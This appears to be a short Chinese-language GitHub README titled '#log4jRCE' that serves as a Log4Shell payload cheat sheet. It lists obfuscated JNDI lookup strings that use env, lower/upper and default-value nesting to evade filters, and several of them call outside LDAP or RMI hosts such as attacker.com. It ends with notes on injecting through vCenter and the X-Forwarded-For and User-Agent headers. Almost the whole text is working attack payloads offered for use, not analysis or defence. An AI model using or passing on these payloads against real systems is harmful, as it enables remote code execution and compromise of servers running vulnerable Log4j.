


# #log4jRCE

```
1.绕过rc1版本
${jndi:ldap://127.0.0.1:1389/ badClassName}

2.绕过方式
${${env:aaaa:-j}${env:aaaa:-n}${env:aaaa:-d}${env:aaaa:-i}:${env:aaaa:-l}${env:aaaa:-d}${env:aaaa:-a}${env:aaaa:-p}${env:aaaa:-:}//
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
${jndi:${lower:l}${lower:d}a${lower:p}://loc${upper:a}lhost:1389/rce}
jn${env::-}di: 
jn${date:}di${date:':'} 
j${k8s:k5:-ND}i${sd:k5:-:} 
j${main:\k5:-Nd}i${spring:k5:-:} 
j${sys:k5:-nD}${lower:i${web:k5:-:}} 
j${::-nD}i${::-:} 
j${EnV:K5:-nD}i: 
j${loWer:Nd}i${uPper::}

3.利用
vcenter: 
X-Forwarded-For: ${xx}

User-Agent: 


```




